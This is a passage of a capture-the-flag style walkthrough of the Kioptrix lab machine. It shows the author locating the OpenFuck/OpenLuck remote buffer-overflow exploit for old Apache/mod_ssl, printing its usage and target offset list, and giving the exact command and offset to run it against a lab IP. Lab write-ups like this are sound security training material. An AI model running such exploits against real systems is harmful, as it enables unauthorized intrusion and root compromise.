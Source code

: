 
**Our First step is to make research on this particular version and see if there are vulnerabilities and exploits**

Going to google and searching this way gives us a Remote Buffer overflow attack and target is vulnerable to **OpenFuck**:

![](https://i.imgur.com/tpg9NNp.png)

We can also confirm these by using **searchsploit**;

![](https://i.imgur.com/sKAQcHW.png)

---

## Exploitation

**We will be using the GitHub exploit, seems cool and updated, Naturally, if you see a github exploit, try to try it out first before choosing another**

- We can access the GitHub exploit from the first link after our Google search; https://github.com/heltonWernik/OpenLuck
- Follow the download instructions and let get to the exploitation stage
- here is the syntax for running the command:

```sh
┌──(sec-fortress㉿kali)-[~/kioptrix/OpenFuck]                                                 
└─$ ./bankai                                                                                  

*******************************************************************                           
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *                           
*******************************************************************                           
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *                           
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

: Usage: ./bankai target box [port] [-c N]                                                    

  target - supported box eg: 0x00                                                             
  box - hostname or IP address                                                                
  port - port for ssl connection                                                              
  -c open N connections. (use range 40-50 if u dont know)

  Supported OffSet:                                                                           
        0x00 - Caldera OpenLinux (apache-1.3.26)                                              
        0x01 - Cobalt Sun 6.0 (apache-1.3.12)                                                 
        0x02 - Cobalt Sun 6.0 (apache-1.3.20)                                                 
        0x03 - Cobalt Sun x (apache-1.3.26)                                                   
        0x04 - Cobalt Sun x Fixed2 (apache-1.3.26)                                            
        0x05 - Conectiva 4 (apache-1.3.6)                                                     
        0x06 - Conectiva 4.1 (apache-1.3.9)                                                   
        0x07 - Conectiva 6 (apache-1.3.14)                                                    
        0x08 - Conectiva 7 (apache-1.3.12)                                                    
        0x09 - Conectiva 7 (apache-1.3.19)                                                    
        0x0a - Conectiva 7/8 (apache-1.3.26)                                                  
        0x0b - Conectiva 8 (apache-1.3.22)                                                    
        0x0c - Debian GNU Linux 2.2 Potato (apache_1.3.9-14.1)                                
        0x0d - Debian GNU Linux (apache_1.3.19-1)                                             
        0x0e - Debian GNU Linux (apache_1.3.22-2)                                             
        0x0f - Debian GNU Linux (apache-1.3.22-2.1)                                           
        0x10 - Debian GNU Linux (apache-1.3.22-5)                                             
        0x11 - Debian GNU Linux (apache_1.3.23-1)                                             
        0x12 - Debian GNU Linux (apache_1.3.24-2.1)                                           
        0x13 - Debian Linux GNU Linux 2 (apache_1.3.24-2.1)                                   
        0x14 - Debian GNU Linux (apache_1.3.24-3)                                             
        0x15 - Debian GNU Linux (apache-1.3.26-1)                     
        0x16 - Debian GNU Linux 3.0 Woody (apache-1.3.26-1)

		.....
```

- Very good, so we can now do `./bankai 0x6b 172.16.216.130 -c 50`

***Note:**

- You don't need to specify the port for ssl connection since nmap doesn't return one
- Also make sure that target(0x00) is not mixed with box(172.16.216.130)
- Irrespective of choosing the right target, make sure your offset is set correctly
	- In our case it is **0x6b - Red Hat Linux 7.2 (Apache-1.3.20-16)2** because nmap told us so, also make sure to remember setting the target to `0x6b` so you wont get errors

